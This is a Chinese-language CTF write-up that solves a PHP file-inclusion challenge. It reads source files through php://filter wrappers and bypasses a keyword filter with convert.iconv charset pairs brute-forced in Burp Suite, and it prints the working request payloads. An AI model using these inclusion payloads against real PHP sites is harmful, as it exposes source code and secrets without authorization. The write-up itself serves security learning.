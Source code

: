 # fileinclude 过滤

题目

```
<?php
highlight_file(__FILE__);
    include("./check.php");
    if(isset($_GET['filename'])){
        $filename  = $_GET['filename'];
        include($filename);
    }
?>
```
伪协议
```
GET /?filename=php://filter/convert.base64-encode/resource=./check.php/ HTTP/1.1
```
* 【base64编码 是为了防止flag 在代码的注释中，所以使用base64解码 显示注释部分】

* 直接伪协议绕过，会出现 do not hack!  存在过滤

----

## 对过滤的处理

* 使用
* ?filename=1hp://1ilter/1ead=1onvert.1ase64-1ncode/1esource=1lag.1hp
* 逐一测试，将要测试的字符串中的1改回去即可

得到
```
/?filename=php://filter/1ead=convert.1ase64-1ncode/resource=flag.php
```
所以 需要绕过 read base64 encode 

### 对于read的处理
*  read：两者效果一样。
* 条件：只是读取，需要开启 allow_url_fopen，不需要开启 allow_url_include；
```
?filename=php://filter/convert.base64-encode/resource=xxx.php
?filename=php://filter/read=convert.base64-encode/resource=xxx.php
```

### 对过滤器convert.base64-encode的处理

https://blog.csdn.net/qq_44657899/article/details/109300335

由于convert还可以使用，所以选择使用其他的过滤器convert.iconv.* 

使用方法：convert.iconv.<input-encoding>.<output-encoding> 或者 convert.iconv.<input-encoding>/<output-encoding>


这里的<input-encoding>和<output-encoding>分别为输入的字符串编码方式和输出的字符串编码方式（字符集）。可选项如下（PHP: 支持的字符编码 ）：

#### 编码方式
https://www.php.net/manual/zh/mbstring.supported-encodings.php
```
UCS-4
UCS-4BE
UCS-4LE
UCS-2
UCS-2BE
UCS-2LE
UTF-32
UTF-32BE
UTF-32LE
UTF-16
UTF-16BE
UTF-16LE
UTF-7
UTF7-IMAP
UTF-8
ASCII
EUC-JP
SJIS
eucJP-win
SJIS-win
ISO-2022-JP
ISO-2022-JP-MS
CP932
CP51932
SJIS-mac
SJIS-Mobile#DOCOMO
SJIS-Mobile#KDDI
SJIS-Mobile#SOFTBANK
UTF-8-Mobile#DOCOMO
UTF-8-Mobile#KDDI-A
UTF-8-Mobile#KDDI-B
UTF-8-Mobile#SOFTBANK
ISO-2022-JP-MOBILE#KDDI
JIS
JIS-ms
CP50220
CP50220raw
CP50221
CP50222
ISO-8859-1
ISO-8859-2
ISO-8859-3
ISO-8859-4
ISO-8859-5
ISO-8859-6
ISO-8859-7
ISO-8859-8
ISO-8859-9
ISO-8859-10
ISO-8859-13
ISO-8859-14
ISO-8859-15
ISO-8859-16
byte2be
byte2le
byte4be
byte4le
BASE64
HTML-ENTITIES
7bit
8bit
EUC-CN
CP936
GB18030
HZ
EUC-TW
CP950
BIG-5
EUC-KR
UHC
ISO-2022-KR
Windows-1251
Windows-1252
CP866
KOI8-R
KOI8-U
ArmSCII-8
```

## payload
```
GET /?filename=php://filter/convert.iconv.§§.§§/resource=flag.php / HTTP/1.1
Host: 61.147.171.105:56702
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

* brupsuit cluster Bomb
* 将上述编码方式做成字典 添加两个set 爆破 得到flag

![img.png](imgs/编码方式爆破.png)

---
## brup 爆破模式
![img.png](imgs/brupsuit爆破模式1.png)
![img_1.png](imgs/brupsuit爆破模式2.png)